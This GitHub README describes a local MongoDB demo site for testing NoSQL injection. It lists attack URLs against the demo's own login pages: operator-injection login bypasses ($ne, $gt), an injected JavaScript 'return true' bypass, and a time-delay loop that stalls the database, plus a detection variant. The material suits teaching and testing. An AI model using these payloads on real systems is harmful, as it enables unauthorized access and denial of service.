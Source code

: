 # NoSQLInjectionAttackDemo
NoSQLInjectionAttackDemo is website demo for test NoSQL Injection. There are two website demos in this project and all databases are mongoDB
# Requirements
Install web server for example nginx, apache on local computer. On a Debian, Red Hat based system or windows are ok.
# Building
demo   : http://localhost/github/NoSQLInjectionAttackDemo/demo.html

demo_1 : http://localhost/github/NoSQLInjectionAttackDemo/demo_1.html
# Usage
Open url in the browser: http://localhost/github/NoSQLInjectionAttackDemo/demo.html
![image](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo/blob/master/images/demo.png)
Attack URL for demo:
* http://localhost/github/NoSQLInjectionAttackDemo/login/login.php?username[$ne]=2&password[$ne]=r
* http://localhost/github/NoSQLInjectionAttackDemo/login/login.php?username[$gt]=&password[$gt]=

Attack URL for demo_1:
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;return true;}//
无论用户密码是否正确都返回true
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;var date = new Date(); var curDate = null; do { curDate = new Date(); } while((Math.abs(date.getTime()-curDate.getTime()))/100 < 20); return true;}//
将系统延迟20秒，如果改成while((Math.abs(date.getTime()-curDate.getTime()))/1000 < 20); 则可以导致数据库报错。.

NoSQL injection attack detection:
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$ne]=2&password[$ne]=r
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$gt]=&password[$gt]=
